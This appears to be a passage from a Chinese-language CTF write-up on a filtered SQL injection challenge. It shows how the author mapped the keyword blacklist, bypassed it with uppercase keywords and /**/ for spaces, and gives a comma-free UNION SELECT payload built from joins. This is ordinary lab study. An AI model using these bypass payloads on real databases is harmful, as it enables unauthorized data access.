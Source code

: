 
有个查询功能，手玩一下，发现是个 sql 注入，过滤了很多东西。

只要输入的字符串包含不是已有的名字，并且是被过滤的内容，就会回显所有内容，借助这一特征，可以大致把黑名单跑出来。

```plain
&
&&

+
,
|
or
||
--+
end
mid
xor
>
<
from
left
like
ascii
sleep
rlike
right
order
floor
union
where
regexp
select
substr
<>
information



```

试一下发现可以大写绕过。

:::color5
为了方便看，先忽略了绕过空格，也就是正常的 payload 需要把空格替换成 /**/

:::

```sql
1' UNION SELECT * FROM ((SELECT 1)A join (SELECT 2)B join (SELECT 3)C join (SELECT 4)D join (SELECT 5)E)#


```
